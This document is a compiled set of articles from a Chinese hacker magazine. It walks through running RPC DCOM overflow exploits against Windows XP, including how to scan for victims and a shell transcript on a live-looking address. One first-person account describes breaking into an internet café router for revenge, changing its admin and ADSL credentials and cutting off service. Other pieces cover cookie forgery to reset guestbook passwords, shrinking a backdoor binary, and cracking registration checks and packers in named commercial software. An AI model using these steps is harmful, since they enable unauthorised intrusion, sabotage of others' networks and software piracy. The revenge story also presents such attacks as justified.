这个程序对于英文 XP 的溢出成功率似乎没有 Win2000 高，如果使用该程序对中文 XP 系统进行强行溢出，会造成目标 XP 系统的远程关机，厉害吧！比 DOS 攻击更酷，使用 XP 的朋友可得千万小心了。（注意：第二版的代码依然没有溢出 XP）

### 五、第三版本 rpcdcom

在上边的改进版本中，虽然 w2krpcex.exe 也提到了可用来远程溢出英文 XP 系统，但据我的实际测试，效果很不理想。说实在的，自从 XP 系统推出以来，已经快两年了。虽然在网上也可找到几个 FOR XP 的远程溢出程序，但其成功率我实在不敢恭维。这也使得直至今日，在国内的一些公开场合还没有人公开发表过远程溢出 XP 的相关文章，不能不说是一种遗憾。


继第二个版本后，我在网上又找到了第三个改进版本，可以说这是一个合成版本，由 FlashSky、Benjurry 以及 HDM 编写的代码合成，主要针对英文版 Win2000 及英文 XP 系统。让我们来看一下该程序的使用（图11）。

```  
D:\hacker\win2000>rpcdcom
```

如图11所示，Target ID 为版本号，共有 6 个；Target IP 为目标主机的 IP，使用比前两个版本要方便得多，溢出后并不需要再远程连接对方的任何端口，甚至也不需要在本地监听。让我们来看一下远程溢出 XP 的操作。


如图12所示，我们溢出成功了。不需要任何连接，直接得到了对方的 CMD SHELL，看到 XP 的提示，我真的有一点激动，呵呵，毕竟是第一次嘛。下边让我们来看一下我们的权限。


如图13所示，同前两个版本一样，我们得到的同样是 Administrators 权限。

虽然如此，该溢出程序的代码仍然不完善，别忘记了，还有 SERVER 2003。在成功完成了远程溢出 WinXP 后，现在我很希望可找到第四个版本来溢出 SERVER 2003。


### 六、第四版本 xprpc

虽然说我们已经能溢出英文 XP 了，但是大家肯定觉得还不过瘾，要是能溢出中文 XP 岂不是更棒。经过一番努力，又有朋友编译好了能溢出中文 XP 的程序——xprpc，根据参数看出可以溢出中文 XP，听说成功率很高。

源代码采用的是 FlashSky 的。不过我发现 FlashSky 的代码对 Windows XP 支持得不好。经过研究发现原因是 offset 错误。经过修改以后可以溢出中文版 Windows XP。首先我们来看程序执行后的说明帮助：


## 你最喜欢的文章

- 4. Windows 2000 SP4 (english)
- 5. Windows XP SP0 (english)
- 6. Windows XP SP1 (english)

相信大家能看明白该程序所能溢出的 7 种版本。这里，我只讲利用 xprpc 溢出中文版 Windows XP SP1，其他部分请参考上文。

溢出命令格式：

```  
Usage: xprpc.exe <Target ID> <Target IP>

xprpc      系统参数      目标IP地址
```

要想快速查找 XP，我教大家一个好办法。大面积扫描 5000 端口。一般开放 5000 端口的就是 Windows XP。确定对方 XP 以后最重要的就是扫描对方是否开放 135 端口。如果开放就可以做攻击试验了。下面是我找到的一台 Windows XP 的系统：135 端口开放，IP 为 218.xxx.xxx.xxx，我们来溢出这个 IP 吧。

```  
C:\>xprpc.exe 0 218.22.26.7

Remote DCOM RPC BufferOverflow Exploit
Using return address of 0x77d96323
Dropping to System Shell...

Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

D:\WINDOWS\system32>ipconfig

Windows IP Configuration

Ethernet adapter 本地连接:

IP Address . . . . . . . . . . . : 218.22.26.7
Subnet Mask . . . . . . . . . . . : 255.255.255.240
Default Gateway . . . . . . . . . : 218.22.26.1
```

OK，一举成功！如图14所示，是不是很 COOL 呢？溢出中文版 Windows XP 说实话我还是第一次。溢出第一台的时候，真的好激动，2 年了，XP，你终于“被拿下了”，不容易啊。


图14

现在该程序只能溢出中文版 Windows XP SP1，以后也应该会有能溢出 Windows XP SP0 的程序。到时，我们会及时在 X 档案论坛上和大家交流。

### 七、漏洞的补救措施

- 1. 使用防火墙之类的软件拦截 135、445 端口的连接；
- 2. 使用本地安全策略屏蔽 135、445 端口的连接；
- 3. 去微软站点下载相应补丁（文中给出 Microsoft 下载链接）。

本文只是对该漏洞的溢出过程做了简单测试，希望各位网管提高警惕。该漏洞严重程度较高，还是快打补丁为妙！如果发现了更完善的版本，我们会在论坛上公布（http://www.hackerxfiles.net/bbs），敬请留意！

> （文中提到的工具、源代码以及第一版本 RPC 的换弹工具在配套光盘中有提供，但是第 4 个版本 xprpc.exe 由于得到得比较晚，没有来得及收录到光盘中；朋友们可以登录论坛下载。）

## 网吧路由器入侵手记

钟毅榕

相信各位菜鸟看到“入侵路由器”这个词，都会觉得很困难，会以为这篇文章非常高深……RICKY 向来一贯的宗旨是不写菜鸟们看不懂的文章……所以大家不要害怕，只要你平时有看我们《黑客X档案》的话，那么下面的内容对你来说，简直就是小菜一碟！

### 一、事情起因

有一天，朋友告诉我，我家附近开了间网吧，网吧不大，只有 20 多台机器，而且机器配置非常牛，网速也超快。唯一不足的是：网吧老板心太黑了！……每次他玩的时候都是看自己的手表来计时，在结账时发现那个软件记录下的时间，总比自己计的时间多个十来二十分钟。

毫无疑问，这个软件老板动过手脚。朋友苦于找不到理由，便来找我，想叫我教训一下这间网吧。后来自己去了一次，果然如此……“你那么厉害，有本事就别来上网啊！”好，既然你不想我来上网，那么我就要其他人在你这里也上不了网。

### 二、刺探敌情

第二天去的时候虽然很尴尬，但为了教训那个黑心老板，只好硬着头皮。在那里找了个有利位置坐下后，便开始打量这间网吧的组网方式。通过图1的简单示意图可知，网吧各台电脑是通过交换机连接起来的，然后交换机再与路由器相连，最后路由器连接到 ADSL MODEM 来上网。


本来我是想入侵网吧的主机，然后通过控制主机来达到控制整个网吧的目的。但现在才知道，那台所谓的主机，只不过是用来给 ADSL MODEM 供电……我后来找了个机会接近了一下主机，发现主机的系统居然是 Win98……并没有安装美萍之类的网吧限制软件。

### 三、开始行动

现在既然不可以入侵网吧主机，那么要整它就麻烦了点：什么？你说明我破解掉“还原精灵”，然后把系统删掉？不行，这样子只整到了网吧的一台电脑……咱们干脆来绝一点，入侵网吧的路由器，如果成功的话，绝对比进入网吧主机来得过瘾。

既然有这样的目标，那么我们首先要确认一下网关的 IP 地址（也就是路由器的 IP 地址）：打开“开始”菜单中的“运行”对话框，输入“winipcfg”，会出现图2窗口。在这里不仅可看到本机在内网的 IP 地址，还可得知网关路由器的 IP 地址是 192.168.16.1。


赶紧打开 IE 浏览器，输入这个 IP 地址，出现了要输入密码的窗口。


> 注意：要对路由器进行访问，你的机器 IP 地址一定要和路由器在同一网段，否则无法在 IE 中进行访问。

要输入密码啊？那怎么办呢？当然不是啦，大部分牌子的路由器在出厂时都有一个默认密码。我们只要在搜索引擎上搜索这个牌子的相关资料，找到它的主页，那么在主页的下载区之类，通常都可找到它的默认密码。但如果网管稍有些安全意识的话，都会对默认密码进行修改。

很不巧，我实在看不出这个路由器是什么牌子的，更不用说找它的主页了。没办法，现在只有猜了：当然也不是乱猜，因为路由器默认的密码通常都是 admin、setup 之类，而且密码通常和用户名相同。

## 你最喜欢的文章

我在用户名处输入 admin，密码输入 admin，可是不行，连续试了十来个都一无所获。本来有点灰心丧气想放弃了，但一想到网吧老板那副可恶的嘴脸，又心有不甘……我下了个“还原精灵全版本密码读取”软件，打开该软件后如图4所示，可以看到网吧还原精灵的密码是“22884439”……


图4

接着，在登录路由器时要求输入密码的窗口中，输入用户名“setup”，密码“22884439”不行。换个用户名“admin”吧，居然成功了！大家看看图5，这里显示了网吧接入 ADSL 的账号和密码呢！不过这时已经晚了，而且最近要考试……


### 四、进行报复

第二天考完试，再次去了网吧一次。先进入路由器到处看了看，点击“当前状态”，这里我们可获取 DHCP 客户表，并且看到每台在用电脑的内网 IP 地址和机器名（图6）……通过“开放主机”，我们可使网吧任何一台主机向 Internet 开放，且开放后该机器没有任何防火墙保护（图7）……


接下来，我当然要实现当初的承诺，让网吧的机器上不了网！首先，点击系统信息，这里我们可重新设置路由器的管理密码，于是把路由器密码设为了“hackerxfile”，然后回到图5页面，将 ADSL 的账号和密码也改为“hackerxfile”……当然，教训也不能做得太绝，我又写了个 VB 小程序，运行时全屏显示，点击按钮后会出现我留的路由器密码……最后结果如图8所示。


### 五、后记

其实这次入侵网吧的路由器，可以说是什么技术也没用到。其实学习黑客技术，除了技术外，思路也很重要。如果路由器的密码和还原精灵的密码不同怎么办呢？若网吧装了万象环境之类软件，也可用软件显示出它的密码……这次经历我用一句话来概括，那就是：黑客之道，贵在思路。呵呵！

## 一种脚本漏洞的通用探测方法

很多菜鸟看了一些“大虾”公布的脚本漏洞的入侵文章后……我自己能发现一个脚本漏洞吗？对脚本编程一点也不懂，这个目标真是可望而不可及！……这里笔者就给那些不懂脚本编程的菜鸟一种脚本漏洞的通用探测及入侵方法。

什么是二级页面验证不严的脚本漏洞呢？如何探测？难道可以扫描吗？跨页提交又是怎么回事？这种入侵方法真能通用吗？针对这一系列的问题，我用两个实例来给大家分析、讲解。

### 实例一

Lhgb 多用户留言本是由温州 Linghun 工作室出品并公布源码的一款免费 ASP 系统……在 modify.asp 文件里就存在上面提到的二级页面验证不严漏洞，可直接改掉留言本的版主密码。


由于 modify.asp 的源码太多，所以在此我们大体了解一下其代码思路……输入用户名和原有密码登录后会跳转到二级页面（图2），该页面可修改资料，且缺乏有效限制。


抓包有很多工具，用瑞士军刀 nc 就可做到。先在本机开一个 web 端口监听，在 CMD 下执行 `nc -l -p 81`……然后回到 IIS 管理器中停掉本机站点，填写修改完毕资料后点击“确认修改”，就会在 nc 窗口出现数据。

```  
http
GET /asp/1709/modifyok.asp?user=hun&pass=123456... HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://127.0.0.1:81/asp/1709/modify.asp?edit=ok
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)
Host: 127.0.0.1:81
Connection: Keep-Alive
Cookie: ASPSESSIONID...
```


仔细看这些数据，和上面图1输入的用户名和密码根本没有关系……假设要把密码 123456 改为 123，就把第一行的 `pass=123456` 改为 `pass=123`，然后再用 nc 提交这些数据即可。

```  
http
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: ...
Content-Length: ...
Content-Type: text/html
...
```


## 你最喜欢的文章

上的 Light 留言本了吧！其实很简单，将我们抓包里面的 URL 地址对应改为网上的 URL 地址，IP 和端口改为网上的 IP 和端口，数据改为你想要的数据就可以了……


看了这个例子，你应该知道什么是二级页面验证不严、什么是跨页提交了吧！虽然不会写代码，也可以网上随机下载一些代码，然后用 nc 来抓二级页面的包，修改数据后再用 nc 提交过去……

> **注意**
> 虽然我举的是 ASP 的例子，但这个编码在其它脚本（如 PHP/CGI/JSP）中都是存在的。不要在没有授权的情况下进行尝试。

### 实例二

下面我们再来看一个稍微高级的例子——Cookie 欺骗，不过它的漏洞和上面一样，方法也相同，即二级页面验证不严和跨页提交。我写了两个 ASP 代码（2.asp 和 3.asp）……

```asp
<%
if trim(request.form("password"))="123" then
  response.cookies("password")="lcx"
  response.redirect "3.asp"
else
%>
<html>
<body>
<% if request.form("password")<>"" then %>
  <p>你的密码输得不对,请重新输入</p>
<% end if %>
<form method="POST" action="2.asp">
  <div align="center"><center><p>Enter Password
  <input type="password" name="password">
  <input type="submit" value="OK!LOGIN"></p></center></div>
</form>
</body>
</html>
<% end if %>
```

表现在 IE 中时，看到的 2.asp 就是图 6 的样子（URL 为：http://127.0.0.1:81/asp/2.asp）。我们再来看 3.asp 的代码，很简单：

```asp
<% if Request.Cookies("password")="lcx" then %>
<html><script>alert("hello")</script></html>
// 如果本页 cookie 的值是 lcx，那么弹出对话框，写“hello”
<% end if %>
```

在图 6 的页面输入密码 123 后，立即出现 3.asp 的页面（URL 为：http://127.0.0.1:81/asp/3.asp），如图 7。


看 3.asp 的源码得知：要想弹出对话框，只要满足 Cookie 的值为 lcx 即可。正常情况下这个 Cookie 值在 2.asp 输入正确密码后产生，但这个值完全可伪造出来。


我们先打开 http://127.0.0.1:81/asp/2.asp，输入密码 123 生成 Cookie 后跳转到 3.asp。此时抓包，不用 nc，改用 winsock expert（光盘中有收录），再在 IE 里刷新 3.asp，抓到图 8 所示数据。


```http
GET /asp/3.asp HTTP/1.1
Accept: */*
Referer: http://127.0.0.1:81/asp/2.asp
Cookie: password=lcx; ...
```


password=lcx。”，这个 Cookie 值并不是由页面输入密码产生，而是构造出来用于跨页提交，进而绕过二级页面验证。文中总结了利用脚本漏洞与跨页提交进行入侵的思路与流程。

此时关闭相关页面，确保 2.asp 不产生 Cookie，直接提交给 3.asp。若底部没有出现 `<script>alert("hello")</script>` 字符，说明注入成功。随后在提交数据里构造 `Cookie: password=lcx; ...` 等字段，实现验证绕过。

## 超级辅助 1.68K Telnet 后门

guxi

> 选项中若程序是控制台程序，建议选择对应子系统；若填写错误入口或参数，编译后可能无法弹窗或行为异常。

近期笔者编写了一个 ICMP 后门，重点需求是让生成文件尽量小。本文不讨论后门原理与源码，而是介绍如何通过 VC 编译设置将 exe 体积压缩到较小。

- 使用 Release 版而非 Debug 版编译
- 在“工程/设置/链接”中调整入口点与对齐参数
- 通过段合并（merge）进一步减小体积

默认在 Debug 下构建会带来大量调试信息，文件体积偏大。切换到 Release 后，同一程序可显著缩小（文中示例约为原来的 1/8）。


## 设置自己的入口点函数

C/C++ 程序默认入口常见为 `main` 或 `WinMain`。可在链接器中将入口点改为自定义函数（如 `EnterFun`），从而减少不必要的启动代码，进一步压缩体积。


> 注意：在 Project Options 中检查 `/subsystem:console` 等参数是否正确。

## 更改编译对齐方式

VC 默认对齐常为 `0x1000`（4096 bytes）。将其改为 `0x200`（512 bytes），可减小输出体积；部分系统下可进一步降到更小对齐值。再结合段合并参数（如 `/merge:.data=.text`）后，示例可降到约 1.68K。

```text
/align:512
/merge:.data=.text
/merge:.rdata=.text
```

### 后记

以上为作者在 VC 开发中的压缩经验总结，希望对编写小体积程序有所帮助。

## 精彩连载100%

“每次……我都要等一个月……等待的滋味……哎，你知道……现在，我们完全可以一次看过够。本栏目把2003年的精彩连载文字串在一起，让我们快速阅读，一读到底。”


## 《猫抓老鼠》软件破解篇之级别式


清风幻影

现在许多共享软件都采用注册码的方式注册软件，软件在未注册之前，有些重要的功能不能使用，输入正确的注册码成为正版软件后会解除对这些软件的限制，成为没有功能限制的正式版。

### 一、思想与工具

- 破解对象：用来破解在内存中出现明文注册码的软件。
- 所需工具：WinIce 4.05 for win9x（用来动态跟踪程序的执行）、KeyMake V1.69（制作注册机）。
- 所需知识：适当的汇编知识。
- 以上两款软件的用法请参考原软件的帮助文件和相关书籍。

我们这一次就来讲一下怎样去找到这个正确的注册码（并不是所有的程序都能在内存中找到明文注册码）。首先看一下注册码的判断原理……关键就在判断这个环节上，程序会把某一时刻的正确注册码和我们输入的注册码进行比较。

### 二、实例破解

下面我们举例讲解此类软件的破解方法。选择目前网上比较流行的图像合成软件《幻影2003》作为讲解例子。安装后若不注册则不能保存图像；点击“保存”会弹出注册对话框。在“注册码”中输入示例字符（如“12345”），再切换到 WinIce 调试窗口进行跟踪。


右栏讲解在 WinIce 中断后定位 HMEMCPY 与注册码比较流程：程序两次调用 HMEMCPY，一次复制软件编号，一次复制输入注册码，随后比较并弹出“注册码不对”提示。通过多次 F12/F10 单步可定位比较代码段。


```asm
0167:00408F09  LEA EAX,[EBP+6C]
0167:00408F0C  LEA ECX,[ESP+10]
0167:00408F10  PUSH EAX
0167:00408F11  CALL 0042DE32
...
0167:00409148  MOV EDX,[ESP+10]
0167:0040914C  MOV EAX,[EBP+60]
0167:0040914F  PUSH EDX
0167:00409150  PUSH EAX
0167:00409151  CALL [00431710]
0167:00409157  ADD ESP,08
0167:0040915A  TEST EAX,EAX
0167:0040915C  JNZ 00409167
```

```asm
0167:0040915E MOV ECX, EBP
0167:00409160 CALL 0042DCF4（注册码正确时进行注册...）
0167:00409165 JMP 00409181
0167:00409167 PUSH FF（注册码不正确跳到这里）
0167:00409169 PUSH 04
0167:0040916B PUSH 00008006
0167:00409170 CALL 0042E0DE（显示注册失败的对话框）
0167:00409175 CMP EAX, 06
```

到 `0167:0040914F` 处时，`EAX` 中存放的就是正确的注册码地址，我们只要在程序运行到这里的时候显示 `EAX` 的内容就可以得到注册码。输入 `D 0167:0040914F` 回车……注意：此处的段 `0167` 要输入你机器上的段值。


输入 `BD *` 将所有的断点禁止掉，按 `Ctrl+D` 回到《幻影2003》中。运行 `KEYMAKE`，选择“其它”→“内存注册机”。在“设置注册机信息”对话框中选择程序；点击“添加”，在“添加数据”对话框中按图示方式输入。随后点击“生成注册机”即可。注意要把生成的注册机放在《幻影2003》文件夹中。

看到这里，心里是不是就清楚多了。按两下 `F10`，运行到 `0167:0040914F`，输入 `D EDX` 回车可见输入的注册码“12345”；输入 `D EAX` 回车可显示形如 `B3R0-G2D3-A1C0-J1L5` 的正确注册码。到此我们就将内存中正确的注册码找出来了。

### 三、制作注册机

由于程序安装在不同机器上会产生不同的软件编号，自然需要不同的注册码。既然我们能在内存中看到注册码，就能做一个程序自动显示出来。


我们现在用 `KEYMAKE` 来做一个注册机，让它自动把注册码找出来。


小结：有些软件在判断注册码时，会在内存中出现正确注册码。关键是找到该位置。理论上只要内存中有就能找到，但实际变化很多，需要耐心与经验。对于不会在内存中出现明文注册码的程序，则需要其他破解方式。**声明：本教程仅用于技术研讨，请支持正版软件。**


绝大多数共享软件在未注册前都有功能限制，注册后解除限制。有些软件保护性较好，内存中不会出现明文注册码，这时“破剑式”就无能为力。可以通过跟踪注册比较子程序获取比较算法并写出注册机，但这通常需要较高的汇编与算法知识，也更耗时。

我们应在最短时间内寻找软件设计漏洞，以最简单的方法解除最复杂的限制，才符合《独孤九剑》的要旨。破刀式几乎可用于破解大多数有功能限制的共享软件（条件是工具与方法得当）。

#### ① 思想与工具

- 功能：用来破解有功能限制的共享程序
- 工具：WinIce 4.05 for Win9X（动态跟踪程序执行）、KeyMake V1.73（制作内存补丁）

## 精彩连载100%

**思想**：计算机程序的分支执行结构，是通过跳转指令来实现的。你浏览跟踪一下程序的执行，会发现程序中的跳转指令实现了程序的有选择运行。

对于有功能限制的程序来说，其在运行时会对注册码进行比较，原理流程如下（这只是个假设）。

```c
if (注册码判断不正确) {
  跳到后边某个位置，按功能限制版本运行
} else {
  去除功能限制，按正式版运行
}
```

在编译成机器代码运行时，这种流程结构会用跳转指令来实现，实现的原理代码如下（这只是个假设）：

```asm
CALL 0053B820 ; 调用注册码比较子程序
TEST EAX,EAX
JNZ 00528B99 ; 注册码不正确则跳到后边
MOV [EBP-04],EAX ; 注册码正确时继续
```

可以看到那个 JNZ 只要不跳就是正式版。所以，我们只要把 JNZ 改为 NOP（空语句），就可以运行正式版了。

这就为我们解除软件限制，提供了有力的原理保证。

从理论上讲，我们只要找到这些跳转语句，然后按照意愿修改它（让该跳的时候跳，不该跳的时候不跳），这样就可以解除掉我们想解除掉的任何限制。

> ### 注意
> 太多软件通常有保护机制。仅修改跳转语句可能在后续流程中出错，甚至因注册码未写入关键数据而无法运行。

原理总体很简单，不通过实例破解，是看不出它的威力的！我们还是通过一个实例来快速掌握这一式的基本思想和用法。

### 2 实例破解

Windows 优化大师是一个大名鼎鼎的国产系统优化软件。在未注册时，窗口上方显示出图1的字样，并且某些功能不能使用（比如自动优化等）。


图1

我们以 Windows 优化大师 V5.3 build 217 版本为例。单击“软件注册”（图2），出现注册码认证对话框，如图3所示。


图3

先输入“注册者姓名”为 Master，单击“申请注册”，会得到“注册申请码”160477。然后在“功能6 认证码”中随意输入一些字符（比如 12345）。

切换到 WinIce，按 Ctrl+D 回到注册认证窗口，单击“注册认证”。此时程序被中断，按 F12 返回到相关代码段。

```asm
0167:00528751 CALL 00432684
0167:00528756 MOV EAX,[EBP+...]
0167:0052875C CALL 00404138
0167:00528761 CALL 00528268
0167:00528766 CMP EAX,14
0167:00528769 JZ  0052877A
```

```asm
0167:0052876B MOV EAX,[005A...]
0167:00528770 CALL 0044D814
0167:00528775 JMP 005289D4
0167:0052877A LEA EDX,[EBP+...]
0167:00528780 MOV [EBP-04],EAX
```

看到上面的代码后，先别着急。按 F10 运行到：

```asm
0167:00528761 CALL 00528268
```

按 F8（单步跟踪）2 次跟进来到：

```asm
0167:0066439C PUSH EBP
0167:0066439D MOV EBP,ESP
0167:0066439F ADD ESP,-10
```

> ### 注意
> 在位置 0167:0066439C 按 F9 下断点，便于程序再次启动时能够进入注册码判断流程。

然后按 F12 直到返回到下面这一行：

```asm
0167:00528766 CMP EAX,14
```

按 F10 让程序运行到 0167:00528769。这一行的跳转语句没有跳（因为输入的注册码不正确）。

```asm
0167:00528769 JZ 0052877A
```

现在进行修改，让它直接跳到后边。输入 `D CS:EIP` 查看当前地址数据，可见机器码如下：

```asm
0167:00528769 74 0F A1 E8 A9 5A ...
0167:00528779 00 8D 95 84 FC FF ...
```

我们只要将 `JZ(74)` 改成 `JMP(EB)` 就行了。输入回车，把数据窗中的 `74` 修改为 `EB`。

```asm
0167:00528769  EB 0F A1 E3 A9 5A 00 EB 9F 50 F2 FF E9 5A 02 00 ...
...
0167:00528779 00 8D 98 84 FC 8E FC 8B 45 FC 8B 80 24 03 00 00 ...
```

然后，回车确定。现在输入 `BD` 回车（屏蔽 bpx hmemcpy 断点）。按 `Ctrl+D` 返回程序，发现已经注册了，网上升级也可以用了（如图4、图5）。


但下次再运行时仍提示未注册，说明程序启动时会进行注册码比较。重新启动后在比较子程序入口处中断，继续定位到关键代码。

```asm
0167:00552AFE CALL 00535820
0167:00552B03 TEST EAX,EAX
0167:00552B05 JNZ 00552B99
0167:00552B0B MOV ...
```

```asm
[EBP-04]（注册标记）
0167:00552B0F MOV EAX,[EAX+00000508]
0167:00552B14 MOV EDX,005548B8
0167:00552B19 CALL 004326B4
...
只要将 `0167:00552B05 JNZ 00552B99` 改为 `NOP` 即可解除功能限制。
```

按上面的方法将跳转指令修改为空指令 `90`。

```asm
0167:00552B05 0F 85 8E 00 00 00 ...
...
0167:00552B05 90 90 90 90 90 90 ...
```

然后屏蔽所有断点：`BD *` 回车。回到 Windows 优化大师，程序显示已注册，解除一切功能限制（图4）。

### 3 制作内存补丁

既然能够手工修改该指令解除限制，也可以通过程序制作内存补丁自动完成修改。使用 KeyMake，选择“其它→制作内存补丁”。


把破解文件放到 Windows 优化大师目录并运行，它会自动修改内存指令，解除功能限制。

> 小结：通过修改关键跳转指令，可以改变软件工作流程，使程序按期望运行（如解除功能限制）。

为何要做内存补丁而不直接改程序文件？因为很多程序加壳保护后，指令在文件中难以直接定位和修改，需要先脱壳再改。下次将以实例讲解脱壳与资源修改。

- ProcDump V1.6.2 Final（用于自动脱壳）
- PEiDentifier V0.8（用于检测壳类型、查找入口）
- UltraEdit-32 V9.20（十六进制编辑器）

> 注意：TRW2000 也是常见调试器之一，但功能相对较弱。


### 一、思想和工具

破解对象：用来破解加了壳的软件。

- WinIce 4.05 for Win9x（用于动态跟踪）
- IceDump（用于手工脱壳）

## 精彩连载100%

定性有待改进，特别是在跟踪一些注册码的壳保护程序时，常会当机；而且只支持 Win9X 系统，好像也没听到关于升级的消息。所以笔者采用 WinIce 调试器，考虑将来向 WinXP 转的时候会顺利些。其实，在 Win9X 操作系统下，这两个调试器的用法差别不大，采用何种调试器，完全取决于你的喜好！

### 工作原理

#### （1）什么是壳？

正常情况下，程序中的执行代码是以二进制机器码的形式保存在 EXE 文件中，当 EXE 文件被执行时，这些代码会被装载到内存中运行，所以更改 EXE 文件中的二进制代码，就可实现对程序的破解。为了防止软件被非法修改，产生了壳保护程序。它的工作原理是这样的：壳程序将原来的 EXE 文件进行压缩加密，并将壳程序和被保护的程序放在一起，生成新的可执行文件（一般是壳程序后边附加了被压缩加密的被保护程序）。当这个新的程序被执行时（实际上运行的是壳程序），壳程序会先被运行，然后壳程序会在内存中把被保护程序恢复，并运行被保护的程序。

#### （2）为什么要脱壳？

由于被保护程序经过了压缩加密，其中的代码无法直接修改（就好比你去修改被 ZIP 压缩过的文件一样），要想对被保护程序的文件进行修改，必须先脱掉壳保护（这就好比对手穿了一身刀枪不入的盔甲，要击败他当然先考虑脱掉它的盔甲）。由于 Win32 可执行文件采用的 PE 文件格式，理论上是内存的一个映像。即当壳程序将被保护程序在内存中恢复好的时候，我们只要把这时的内存映像抓取下来，然后经过适当的处理（很多处理一般可通过程序自动处理），就可生成一个完整的 EXE 文件，这个文件的大小可能和原来被保护程序不一样，但理论上讲，在执行功能上是完全一致的。好了，说了一大通，下面来看个实例吧！

### 二、破解实例——脱壳

美萍网管大师笔者没用过（呵呵，没当过网管），具体功能怎样不清楚，不过名气倒挺大的，我们今天就用它来练练手吧（练习后，作者已将此软件从机器中删除掉）！顺便也复习一下前边讲的破刀式！我们练习的版本是 V8.95！

> **注意**：这个软件在运行时会对调试器（WinIce、TRW2000）进行检查，如果发现机器上有调试器，它就会将机器关掉。（本文本不想用它作为例子，可是它安装到我的机器上，发现有 WinIce 就把我的机器给关了，感觉很是不爽，所以就拿它分析分析！）

通过翻阅 Windows API 函数手册，我们知道关机一般是通过调用函数 ExitWindowsEx 来实现的。按 Ctrl+D 呼出 WinIce，然后下断点 bpx ExitWindowsEx（当调用系统关机函数时中断）。现在运行美萍网管大师，出现主界面（图1）。


图1

等上几秒钟，程序会被中断，会弹出 WinIce 窗口，出现如下代码：

```asm
...
USER32!ExitWindowsEx
0167:BFF5232C MOV CL,31 （程序运行到这一行）
0167:BFF5232E JMP BFF52336 （跳到后边执行关机代码）
（我们通过修改这个语句，直接跳到 BFF5234B 返回，就关不了机了）
USER32!DdeFreeStringHandle
0167:BFF52330 MOV CL,19
0167:BFF52332 JMP BFF52336
USER32!DdeKeepStringHandle
0167:BFF52334 MOV CL,18
0167:BFF52336 PUSH EBP （从这里执行关机代码）
0167:BFF52337 MOV EBP,ESP
0167:BFF52339 PUSH ECX
0167:BFF5233A SUB ESP,3C
0167:BFF5233D PUSH DWORD PTR [EBP+08]
0167:BFF52340 PUSH DWORD PTR [EBP+0C]
0167:BFF52343 CALL {BFF512D6}
0167:BFF52349 CWDE
0167:BFF5234A LEAVE
0167:BFF5234B RET 0008 （直接让程序跳到这里返回就不会关机了）
...
```

按 F10 键来到 `0167:BFF5232E JMP BFF52336` 这一行，将这个跳转语句修改为 `JMP BFF5234B`，操作步骤如下：  
a：回车（进行小汇编）`0167:BFF5232E JMP BFF5234B`（输入这个汇编指令，然后回车，直到返回）。

这时，我们发现那个跳转语句已经被修改了（现在在 Windows 里也关不掉机器了，如果想关机，需要将这个跳转语句再改回来）。现在，按一下 F12 看到如下代码：

```asm
0167:004CB45B CALL 00457048
0167:004CB460 CALL 00475C14 （检测调试器）
0167:004CB465 TEST AL,AL
0167:004CB467 JZ 004CB472
0167:004CB469 PUSH 00
0167:004CB46B PUSH 05
0167:004CB46D CALL USER32!ExitWindowsEx （关机）
0167:004CB472 CALL 00475B04 （检测调试器）（程序运行到这一行上）
0167:004CB477 TEST AL,AL
0167:004CB479 JNZ 004CB484
0167:004CB47B CALL 00475B8C （检测调试器）
0167:004CB480 TEST AL,AL
0167:004CB482 JZ 004CB48D
0167:004CB484 PUSH 00
0167:004CB486 PUSH 05
0167:004CB488 CALL USER32!ExitWindowsEx （关机）
0167:004CB48D MOV EAX,[004D7520]
0167:004CB492 CMP EAX,[004DFB18] （检测注册标志）
0167:004CB498 JNZ 004CB5A7
0167:004CB49E MOV EAX,[00501DF4]
0167:004CB4A3 CALL 00403CC4
```

这就是这个程序检测调试器并关机的程序代码，我们可按照自己的意愿进行修改，让它再也不会关机了。选择“系统设置”菜单中的“软件注册”，出现图2所示注册对话框。


现在我们退出这个程序！为以后运行这个程序时不再因为调用关机函数而中断，在 WinIce 窗口中输入相应命令并回车，将这个断点屏蔽掉！

准备工作做好以后，我们来脱壳。常用的脱壳方法有两大类：一种是手动脱壳，即一步步跟踪壳保护程序的执行，直到找到被保护程序的入口点；另一种是利用专用或通用脱壳软件自动脱壳。WinIce 本身不带脱壳功能，需要运行插件 IceDump 来支持脱壳功能。

#### 1. 手动脱壳

脱壳的关键是寻找程序的入口点。一般有两种方法：一种通过程序查找；另一种是手动查找。

##### （1）通过程序查找程序入口点


从简单开始，我们先用 PEiDentifier 这类程序来查找入口点。运行后打开程序 scon.exe，可以看到是用 ASPack 加壳，然后选择 OEP 查找，找到程序入口点 4CEBBC。


##### （2）手工脱壳

现在启动 Numega SoftICE Symbol Loader，并打开程序 scon.exe，然后选择“Module→Load”，出现提示框后选择“是”。


弹出 WinIce 窗口，程序被中断在第一条指令上（此时运行的是 ASPack 的壳程序）。

> 注意：如果没有使用对应版本的 IceDump 插件或插件未正确运行，可能无法进行后续脱壳操作。

由于我们已经知道了程序的入口点，所以输入相应跳转命令直接运行到程序入口点，看到如下代码：

```asm
0167:004CEBBC  PUSH EBP
0167:004CEBBD  MOV EBP,ESP
0167:004CEBBF  ADD ESP,-10
0167:004CEBC2  PUSH EBX
0167:004CEBC3  PUSH ESI
0167:004CEBC4  CALL KERNEL32!LoadLibraryA
...
```

```asm
0167:004CEC19  MOV EBX,EAX
0167:004CEC1B  PUSH 004CED50
0167:004CEC20  PUSH EBX
0167:004CEC21  CALL KERNEL32!GetProcAddress
...
```

此时，完整程序代码已经在内存中，只要把它抓下来就完成脱壳。输入命令：`/PEDUMP 400000 CEBBC C:\scon\s.exe`，回车。

> 注意：参数中的入口地址通常为“基址 + 相对偏移”，示例中即 `400000 + 4CEBBC`。

稍等片刻，会在 `C:\SCON` 下生成 `s.exe`。文件体积会比脱壳前大很多，但功能与原程序一致；若觉得体积大，可再用 ASPack 或其他压缩壳处理。

可以看出脱壳关键在于查找程序入口点。工具可帮助快速定位，但要成为高手仍需学会手工查找入口点。

##### （3）手工查找程序入口点

手工查找就是从壳程序开始第一条指令单步跟踪（常用 F10/F8/F7），在跟踪中可能遇到循环或反调试干扰，需要耐心跳出并继续跟踪，直到定位到程序真实入口。

```asm
0167:005A74EB  MOV EBP,DWORD PTR [EAX+...]
0167:005A74F1  POPAD
0167:005A74F2  JNZ 005A74FC
